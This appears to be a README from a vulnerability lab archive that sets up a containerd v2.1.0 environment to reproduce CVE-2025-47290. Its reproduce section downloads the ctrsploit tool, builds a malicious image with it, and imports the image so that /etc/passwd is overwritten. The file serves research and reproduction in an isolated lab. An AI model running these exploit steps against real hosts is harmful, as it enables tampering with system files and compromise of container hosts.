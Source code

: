 # containerd CVE-2025-47290

* dqd:
  * ssst0n3/docker_archive:cve-2025-47290 -> ssst0n3/docker_archive:cve-2025-47290_v0.1.0
  * ssst0n3/docker_archive:cve-2025-47290_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2025-47290 -> ssst0n3/docker_archive:ctr_cve-2025-47290_v0.1.0
  * ssst0n3/docker_archive:ctr_cve-2025-47290_v0.1.0

## usage

```shell
$ cd vul/cve-2025-47290
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
```

### reproduce

```shell
$ ./ssh
root@localhost:~# wget https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O /usr/bin/ctrsploit
root@localhost:~# chmod +x /usr/bin/ctrsploit
root@localhost:~# ctrsploit vul 47290 x -p /etc/passwd
INFO[0000] Exploit image cve-2025-47290:latest has been generated to cve-2025-47290.tar 
root@localhost:~# ctr i import cve-2025-47290.tar 
cve 2025 47290:latest                   	saved	
application/vnd.oci.image.manifest.v1+json sha256:bf138069e772cc4f9e0c066dc6ec8e01ebded1b5f3f6207dcaa919fa596a29e6
Importing	elapsed: 0.1 s	total:   0.0 B	(0.0 B/s)	
root@localhost:~# cat /etc/passwd
pwned by ctrsploit
```


### env details

```shell
$ ./ssh
root@localhost:~# containerd --version
containerd github.com/containerd/containerd/v2 v2.1.0 061792f0ecf3684fb30a3a0eb006799b8c6638a7
root@localhost:~# runc --version
runc version 1.3.0
commit: v1.3.0-0-g4ca628d1
spec: 1.2.1
go: go1.23.8
libseccomp: 2.5.6
root@localhost:~# ctr i pull docker.io/library/ubuntu:24.04
root@localhost:~# ctr run docker.io/library/ubuntu:24.04 ctr id
uid=0(root) gid=0(root) groups=0(root)
```

## build

```shell
make all DIR=vul/cve-2025-47290
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2025-47290_v0.1.0
```
